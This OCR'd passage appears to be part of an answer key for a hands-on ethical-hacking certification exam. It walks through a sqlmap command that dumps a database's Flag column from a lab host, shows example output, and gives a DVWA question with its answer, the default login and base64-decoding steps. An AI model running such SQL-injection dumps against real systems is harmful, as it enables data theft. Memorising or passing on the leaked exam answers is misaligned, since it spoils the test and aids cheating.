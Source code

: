3. Retrieve Data from the Flag Column:
Finally, dump the contents of the Flag column from the identified table:
shCopy code
sqlmap -u "http://192.168.44.40" --crawl=3 --level=5 --risk=3 -D database_name -
T table_name -C Flag --dump

Step 4: Retrieve the Flag Value
1. Review the Output:
After executing the final command, sqlmap will display the contents of the Flag column. Look for the value that matches the required format aNNaNAA .

Example Output
Assuming sqlmap identifies the Flag column in the users table and the flag value is Secret123 :

diffCopy code
+------+-----------+
| id | Flag |
+------+-----------+
| 1 | Secret123 |
+------+-----------+
-------------------------------------------------------------------------------------------------------
17. A set of files has been uploaded through DVWA
(
http://192.168.44.32:8080/DVWA). The files are located in the "C:\wamp64\www\DVWA\ECweb\Certified\" directory. Access the files and decode the base64 ciphers to reveal the original message among them. Enter the decrypted message as the answer. You can log into the DVWA using the credentials admin/password. (Format:A**aaa*AA)
Answer: R^*ekk%GJ
Solution:
Access DVWA Web Application:
Open your web browser and navigate to http://192.168.44.32:8080/DVWA .

Log in using the provided credentials:
Username: admin
Password: password

Navigate to the Directory:
Once logged in, navigate to the directory containing the files you want to access:
arduinoCopy code
http://192.168.44.32:8080/DVWA/ECweb/Certified/

Identify Base64 Encoded Files:
Look for files within the directory that appear to be encoded in base64. These files typically have names or extensions that suggest they contain encoded data, such as .txt , .dat , .bin , etc.

Decode Base64 Content:
Download the base64 encoded file(s) to your local machine.
Use a base64 decoding tool or script to decode the contents. You can use various methods depending on your operating system and tools available:

Command Line (Linux/macOS):
shCopy code
cat filename.txt | base64 --decode > decoded.txt
